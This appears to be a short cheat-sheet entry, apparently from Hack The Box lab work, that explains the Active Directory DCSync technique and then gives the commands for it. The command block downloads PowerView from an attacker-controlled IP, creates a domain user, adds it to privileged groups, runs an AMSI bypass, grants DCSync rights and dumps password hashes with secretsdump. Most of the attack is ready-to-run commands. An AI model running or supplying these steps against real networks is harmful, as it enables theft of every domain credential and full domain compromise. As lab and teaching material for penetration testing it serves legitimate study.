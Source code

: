 ## DCSync
> DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

> The crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.

> To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

```
Invoke-WebRequest -Uri http://10.10.14.8:8000/PowerView.ps1 -OutFile PowerView.ps1
. ./PowerView.ps1
net user john john@123 /add /domain
net group "Exchange Windows Permissions" john /add
net localgroup "Remote Management Users" john /add

Bypass-4MSI
menu
$passwd = ConvertTo-SecureString "john@123" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("HTB\john", $passwd)
Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync

secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'
```
